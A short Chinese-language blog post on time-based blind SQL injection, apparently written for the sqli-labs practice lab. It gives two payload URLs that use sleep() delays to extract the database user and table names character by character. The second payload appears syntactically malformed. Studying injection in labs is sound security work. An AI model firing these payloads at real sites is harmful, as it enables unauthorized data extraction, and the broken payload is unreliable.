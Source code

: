 ```yaml
---
layout: post
title: 1.3.2-SQL注入-SQL盲注-时间盲注
category: 
  - web安全
tags: 
  - sql注入 
  - sql盲注
abbrlink: 4135600167
date: 2018-06-23 00:00:00
description: more
---
```


## 时间盲注

### 时间盲注原理
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/01.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/02.png)



### 时间盲注方法

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/03.png)
	
	http://localhost:90/Less-10/?id=1" and if(left(user(),1)='a',0,sleep(3))--+

	http://localhost:90/Less-10/?id=1" and if(left(select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='r',0,sleep(3))--+

时间注入脚本  

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/04.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/06/05.png)

--- 
## links
[时间盲注](https://mp.weixin.qq.com/s?__biz=MzIzNzExNzI5Ng==&mid=2648732982&idx=1&sn=159f2b13d7737232577ae11ccecb33d2&chksm=f0d95f29c7aed63f2e0aea215f57672f7282de08c47a1033e6b2cfe1fee5fb788b4c8de405c0&mpshare=1&scene=23&srcid=0702v4QOmQfViIjUPqq98LAc)

